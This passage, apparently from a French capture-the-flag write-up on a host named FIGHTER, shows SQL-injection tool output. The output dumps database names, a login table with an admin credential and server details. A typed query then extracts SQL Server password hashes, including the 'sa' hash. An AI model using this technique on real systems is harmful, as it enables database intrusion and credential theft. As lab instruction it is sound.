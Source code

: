 ```plain
available databases [5]:
[*] master
[*] model
[*] msdb
[*] tempdb
[*] web

current user:    'web'

Database: web
Table: _logins
[1 entry]
+------+-------+------+-------+----+-------------------+
| id   | _u    | _p   | _n    | _l | _e                |
+------+-------+------+-------+----+-------------------+
| NULL | admin | test | Admin | 1  | admin@nowhere.com |
+------+-------+------+-------+----+-------------------+

database management system users [16]:
[*] ##MS_AgentSigningCertificate##
[*] ##MS_PolicyEventProcessingLogin##
[*] ##MS_PolicySigningCertificate##
[*] ##MS_PolicyTsqlExecutionLogin##
[*] ##MS_SmoExtendedSigningCertificate##
[*] ##MS_SQLAuthenticatorCertificate##
[*] ##MS_SQLReplicationSigningCertificate##
[*] ##MS_SQLResourceSigningCertificate##
[*] BUILTIN\Users
[*] FIGHTER\Administrator
[*] NT AUTHORITY\SYSTEM
[*] NT Service\MSSQL$SQLEXPRESS
[*] NT SERVICE\SQLWriter
[*] NT SERVICE\Winmgmt
[*] sa
[*] web

hostname:    'FIGHTER\SQLEXPRESS'

web server operating system: Windows 8.1 or 2012 R2
web application technology: ASP.NET, Microsoft IIS 8.5, ASP
back-end DBMS: Microsoft SQL Server 2012
```

Pour une raison inconnue, l'extraction des hashs des comptes SQL (via *--passwords*) ne fonctionnait pas mais en tapant la requête SQL directement (via l'invite obtenue avec l'option *--sql-shell*) cela fonctionne :  

```plain
select name,master.sys.fn_sqlvarbasetostr(password_hash) from master.sys.sql_logins [4]:
[*] ##MS_PolicyEventProcessingLogin##, 0x0200bf9a95d75104265eb3ba0c429ffe6ca446d8d2445aaedd285e7d932b18e08329e946a00f22a0da6bba80239c0877c986f90db8f008267fe528dff1c9b97e3f1770cf4332
[*] ##MS_PolicyTsqlExecutionLogin##, 0x02001a73788fcdcd9b341e140c8e24c22de85913c9107bbe0d662b5fc2ff523cfefb0961d578993e841d53326df4afc1d91c405ba833b84dd86f6c872272e5a17a1afea59fde
[*] sa, 0x02006de6346acaf2178e53a4e1f4f1d4076f6bbb11719a045a01ad0c6ecfc78287162469199dcaf6e22e16221ec8369f7e70e7734a3922d0e77b24668bbeb93fc97de6e901eb
[*] web, 0x02009aed2fa5bd9aa14ca90e514ed5f8b3c0050b97826bad92f979fa28f2870d2c590beefe22b329571827b5c06c6a3f952ebdf38bd14a5957dc07c8ace40e76e52c84bd2a09
```
